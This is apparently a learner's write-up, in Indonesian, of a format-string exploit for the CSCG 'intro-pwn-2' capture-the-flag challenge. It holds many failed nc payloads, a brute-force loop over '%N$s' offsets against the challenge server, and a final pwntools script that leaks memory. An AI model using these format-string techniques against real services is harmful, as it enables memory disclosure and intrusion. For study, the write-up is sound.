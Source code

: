 ex
saya mencoba untuk mendapatkan address stack dari input yang saya berikan, tetapi nilainya ada yang hilang?
```
python -c "print('BBAA' + '\xE0\x40\x40' + 'BBAA' + '%x'*8)" | nc 127.0.0.1 1024
python -c "print('AABBAABB' + '%x'*1000)" | nc 127.0.0.1 1024
```

```
4012a4
python -c "print('\xa4\x12\x40' + '%x'*4+'%s')" | nc 127.0.0.1 1024
```

```sh
python -c "print('\xe0\x40\x40' + '%x'*4+'%s')" | nc 127.0.0.1 1024

python -c "print('\xc4\x13\x40'+'%x'*6+'%s')" | nc 127.0.0.1 1024

python -c "print('\x51\x13\x40'+'%5\$s')" | nc 127.0.0.1 1024

```

tidak work, *somehow* saya sedikit salah dalam memahami vidio reverensi
```
(python -c "print('\xe0\x40\x40' + '%x'*4+'%s')") | ncat --ssl c4d97e9c8803ad8d838334df-intro-pwn-2.challenge.master.cscg.live 31337
```

saya sudah memerikasa `.hidden _dl_relocate_static_pie` dan tidak memunculkan input, apakah address ini memang kosong?
```
python3 -c "print('\x40\x11\x40%n'+'%x'*5+'%s')" | nc 127.0.0.1 1024
```

```
python3 -c "print('\xE0\x40\x40'+'%x'*5+'%n')" | nc 127.0.0.1 1024
```

```
python3 -c "print('%1\$04x%10\$n')"|nc localhost 1024
```

```
python3 -c "print(',%08x,'*30+'%s'+'A'*18+'\x19\x05\x40')"|nc localhost 1024
```
saya sudah mencoba semua address yang saya temukan di `obj -t pwn2` tapi hasilnya nihil
programnya saya sisipkan di `dump_file`

```python
import os

for i in range(1024,10000):
    print("number:", i)
    os.system("(sleep 2;python3 -c 'print(\"%{}$s\")';sleep 2) | ncat --ssl 14c6d7576f1d64f1c91bddf6-intro-pwn-2.challenge.master.cscg.live 31337".format(i))
    print("\n")
```
### Fix penyelesaian
```python
from pwn import *

a = remote('0e4d53f5293cacd84dbd5303-intro-pwn-2.challenge.master.cscg.live', 31337, ssl=True)
a.recvuntil(b'Give')
a.sendline(b'.%08x.'*30+b'%s'+b'A'*18+b'\xe0\x40\x40')
a.interactive()
```
Setelah beberapa penelitian terhadap hex, saya mendapatkan kesimpulan bahwa hex yang sebelumnya saya kirim telah dirubah oleh encoding yang saya gunakan yaitu utf-8.
